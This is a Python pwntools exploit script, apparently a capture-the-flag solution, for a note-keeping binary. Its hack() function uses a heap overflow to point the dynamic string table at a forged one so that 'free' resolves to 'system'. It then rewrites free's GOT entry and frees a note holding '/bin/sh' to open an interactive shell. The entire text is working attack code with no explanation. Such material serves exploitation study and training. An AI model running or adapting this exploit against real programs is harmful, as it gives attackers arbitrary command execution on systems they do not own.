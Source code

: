    def sla(a,b):
    	p.sendlineafter(a,b)
    	
    def add_note(size,content):
    	sn('\x01')
    	sn(chr(size))
    	sn(content)
    
    def edit_note(index,size,content):
    	sn('\x02')
    	sn(chr(index))
    	sn(chr(size))
    	sn(content)
    
    def delete_note(index):
    	sn('\x03')
    	sn(chr(index))
    
    def hack():
    	raw_input()
    	dynamic_strtab = 0x0000000000601EA8
    	strtab = 0x00000000004003F8
    	str_free = 0x0000000000400457
    	str_free_offset = str_free - strtab
    
    	free_got = pwn_elf.got['free']
    	free_plt = 0x0000000000400620
    
    	lg('free_plt',free_plt)
    	lg('free_got',free_got)
    	
    	add_note(0x10,'A'*0x10)
    	add_note(0x10,'A'*0x10)
    	add_note(0x30,'A'*0x30)
    
    	payload = p64(0) + p64(0) + p64(0) + p64(0x21) + p64(0) + p64(dynamic_strtab)
    	edit_note(1,0x30,payload)
    
    	data = 0x601400
    	payload = p64(5) + p64(data)
    	edit_note(2,0x10,payload)
    
    	payload = p64(0) + p64(0) + p64(0) + p64(0x21) + p64(0) + p64(data)
    	edit_note(1,0x30,payload)
    	
    	payload = '\x00'*str_free_offset + 'system\x00'
    	edit_note(2,str_free_offset+7,payload)
    	
    	payload = p64(0) + p64(0) + p64(0) + p64(0x21) + p64(0) + p64(free_got)
    	edit_note(1,0x30,payload)
    	
    	payload = p64(free_plt+0x6)
    	edit_note(2,8,payload)
    	
    	payload = '/bin/sh\0'
    	edit_note(1,8,payload)
    	delete_note(1)
    	p.interactive()
    